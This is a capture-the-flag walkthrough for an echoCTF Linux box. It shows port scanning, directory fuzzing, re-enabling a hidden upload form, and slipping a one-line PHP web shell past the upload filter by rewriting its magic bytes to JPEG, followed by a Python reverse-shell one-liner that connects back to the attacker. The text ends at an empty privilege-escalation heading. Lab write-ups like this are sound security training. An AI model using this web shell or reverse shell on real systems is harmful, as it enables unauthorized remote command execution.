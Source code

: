 # Box: Cupidme
# Level: Intermediate
# OS: Linux
<hr>

Lets get started

# Recon

## Portscanning

command:```sudo nmap -A 10.0.30.187 -T4  -v -p-```

```
```
From our scan we have only 1 open port, so our enumeration will be focused on that port




# Enumeration 

Navigate to the webpage

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/57455236-6563-4073-9aa1-42af759dead3)

Lets fuzz for directories

command:```ffuf -u "http://10.0.30.187/FUZZ" -w /usr/share/wordlists/dirb/common.txt -e .zip,.sql,.php,.phtml,.bak,.backup```

```
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/EchoCtf/cupidme]
└─$ ffuf -u "http://10.0.30.187/FUZZ" -w /usr/share/wordlists/dirb/common.txt -e .zip,.sql,.php,.phtml,.bak,.backup

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://10.0.30.187/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/common.txt
 :: Extensions       : .zip .sql .php .phtml .bak .backup 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

images                  [Status: 301, Size: 185, Words: 6, Lines: 8, Duration: 167ms]
index.php               [Status: 200, Size: 1805, Words: 92, Lines: 2, Duration: 171ms]
index.php               [Status: 200, Size: 1805, Words: 92, Lines: 2, Duration: 547ms]
LICENSE                 [Status: 200, Size: 1075, Words: 152, Lines: 19, Duration: 166ms]
upload.php              [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 161ms]
:: Progress: [32305/32305] :: Job [1/1] :: 137 req/sec :: Duration: [0:02:46] :: Errors: 0 ::
```
Navigating to the ```images``` directory I got a ```403 error```. 

Lets navaigate to the ```/upload.php``` directory

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/cf7c2a44-346c-4dbb-884c-3935990b6131)

As you can see we get redirected back to the main page.

Checking the page source,

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/9122bbbb-3a8d-4b75-b504-7420ad97032e)

Well, this is the reason why we can't view the ```/upload.php``` directory. The HTML code is commented.

To solve this we have to uncomment that part of the code. We'll be using the developer tools for this

So, right-click and inspect element

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/c16de178-3964-49f4-ae0a-02b2fe8912bf)

Click on that drop down

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/e6c40a03-3e0b-4f8b-9352-3fe8d65917a5)

Click on that also,

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/a65d193a-6025-4513-8004-5c1f0382600c)

Good, so our goal is to uncomment that part of the code.

Now, right-click and click on ```Edit As HTML```, we'll be removing the comments ```<!--``` and ```-->```

Doing that should get you this

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/76b4abc6-648f-4531-b93c-335f3fbfc383)

As you can see  we can now access the upload button.



# Exploitation

Lets try to upload something, say a ```.jpg``` file

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/4bd42d2a-5f42-447a-9100-8c8b67a0ce91)

oops, the file size supported is 39 bytes. So there's a filter in this upload function

1.Upload a .jpeg file 

2.The maximum size of the .jpeg file must be 39 bytes

These are the 2 filters in the upload function

Reading this [blog](https://null-byte.wonderhowto.com/how-to/bypass-file-upload-restrictions-web-apps-get-shell-0323454/) talks about how to bypass file upload restrictions

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/11b52f62-d434-4baa-b702-fa5e10cebfee)

This is the method we'll be using

payload:```AAAA<?php system($_GET[‘cmd’]); ?>```

Save this in a file ```bankai.php```

```
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/EchoCtf/cupidme]
└─$ nano bankai.php 
                                                                                                                                                                                                
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/EchoCtf/cupidme]
└─$ cat bankai.php 
AAAA<?php system($_GET[‘cmd’]); ?>
```
Now, this is a php script, what we'll do is change the magic bytes header from a ```.php``` to a ```.jpeg```

To access the magic bytes of the file, we'll use ```hexeditor```

command:```hexeditor bankai.php```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/8a33d3a2-05c8-4b42-8d2f-afc17283ee5c)

We'll be changing that from ```41 41 41 41``` to ```FF D8 FF EE```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/922fd96c-89fc-4e5e-9ce6-6f4f4b22f03d)

To save and exit, hit ```ctrl + x```

```
                                                                                                                                                                                                
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/EchoCtf/cupidme]
└─$ cat bankai.php 
<?php system($_GET[‘cmd’]); ?>
                                                                                                                                                                                                
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/EchoCtf/cupidme]
└─$ file bankai.php   
bankai.php: JPEG image data
```
Good, now lets try to upload this

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/0eab6a04-a242-4526-a165-5e502427246c)

It worked hehe😎

Navigating to where the file was uploaded to

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/5fd58f04-d694-4562-b347-a585b25d8b31)

Cool, we get this. Now add ```?cmd=id``` to the back of the url

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/30a88dbf-55e2-40c9-8f4d-7d69c5162cdf)

Nice, now lets get a reverse shell back to our machine

payload:```python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("LHOST",LPORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/sh")'```

Ensure you edit the ```LHOST``` and ```LPORT``` to that which applies to you

Before running that payload, I set up my netcat listener already

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/d5d633ab-8c39-4e06-a8fc-200258d973f0)

Using the payload,

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/86052224-f64c-41a6-8df9-9e09f4b5d791)

Checking my netcat listener

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/9a0fd000-34cc-4ca1-b09b-d2ca45c0ab73)

We got a shell back to our machine. Lets go ahead and escalate our privileges




# Privilege Escalation
























